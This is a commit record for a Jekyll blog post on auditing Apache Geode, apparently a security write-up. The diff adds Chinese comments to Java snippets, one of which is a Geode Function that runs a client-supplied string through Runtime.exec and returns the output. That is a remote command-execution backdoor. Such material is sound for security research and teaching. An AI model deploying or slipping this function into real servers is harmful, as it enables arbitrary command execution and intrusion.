

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2024-06-09-Apache Geode审计实战.md, in a window 1280 px wide and 900 px high, scrolled down 11955 px. Shown: the whole window, without its empty margins (157-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Update 2024-06-09-Apache Geode审计实战.md

````diff
--- a/_posts/2024-06-09-Apache Geode审计实战.md
+++ b/_posts/2024-06-09-Apache Geode审计实战.md
@@ -435,14 +435,16 @@
 
 ```java
 //by leeya_bug
+import org.apache.geode.cache.execute.Function;
+
 public class TestFunction implements Function {
   public static final String ID = "leeya_bug_TestFunction";
-
+  //必须 Override getId 函数，getId 返回的 ID 为该函数类唯一标识符
   @Override
   public String getId() {
-    return this.ID;
+    return ID;
   }
-
+  //函数类的入口
   @Override
   public void execute(FunctionContext context) {
 
@@ -598,15 +600,16 @@
         @Override
         public void execute(FunctionContext context) {
             try {
+                //获取客户端传参，并将执行结果转为 BufferReader
                 Object[] args = (Object[]) context.getArguments();
                 BufferedReader reader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec((String) args[0]).getInputStream()));
-
+                //获取命令执行结果
                 String line;
                 StringBuilder output = new StringBuilder();
                 while ((line = reader.readLine()) != null) {
                     output.append(line).append("\n");
                 }
-
+                //返回命令执行结果
                 context.getResultSender().lastResult(output.toString());
             }catch (Exception e){
                 context.getResultSender().lastResult(e.getMessage());
@@ -615,7 +618,7 @@
 
         @Override
         public String getId() {
-            return this.ID;
+            return ID;
         }
     }
     ```
````
Also changed, not shown: other parts of _posts/2024-06-09-Apache Geode审计实战.md (+3 -2 lines).
